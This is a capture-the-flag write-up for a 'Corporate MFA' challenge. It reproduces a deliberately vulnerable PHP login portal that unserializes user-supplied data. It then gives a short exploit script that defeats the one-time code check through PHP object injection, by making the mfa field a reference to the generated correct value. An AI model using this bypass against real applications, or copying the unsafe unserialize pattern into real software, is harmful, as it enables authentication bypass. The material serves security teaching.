 # Corporate MFA

## Problem

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.

{% file src="../../.gitbook/assets/corpmfa.tar.gz" %}

## Source Code

`index.php`:

```php
<?php

include 'class/User.php';

if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);

	// log access
	//Logger::log(Logger::SENSITIVE, 'Login attempt: ' . $loginAttempt);

	// Hand over to federation login
	// TODO currently just a mock up
	// TODO encrypt information to avoid loos of confidentiality
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	catch (Exception $e)
	{
		$notification->type = 'danger';
		$notification->text = $e->getMessage();
	}
}

include 'template/home.html';

```

`User.php`:

```php
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

## Solution

From analysing the source code, we can gather the following information:

* Username: Hardcoded
* Password: From the first example here: [https://www.php.net/manual/en/function.password-verify.php](https://www.php.net/manual/en/function.password-verify.php)
* MFA: Vulnerable to PHP object injection \(`unserialize()` vulnerability\)

The trick here is to initialize the `mfa` attribute as a **reference** to the `_correctValue` attribute \(using the ampersand operator &\). This will allow us to bypass the MFA check, which checks `mfa` against a randomly-generated `_correctValue`:

```php
private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

The exploit script:

```php
<?php
    include "class/User.php";

    $loginAttempt=new stdClass();
    $loginAttempt->username = 'D0loresH4ze';
    $loginAttempt->password = 'rasmuslerdorf';
    $loginAttempt->_correctValue = NULL;
    $loginAttempt->mfa = &$loginAttempt->_correctValue;

    $userData = serialize($loginAttempt);
    $encoded = base64_encode($userData);
    var_dump($encoded);

    $user = new User(base64_decode($encoded));
    var_dump($user);
    $user->verify();
?>
```

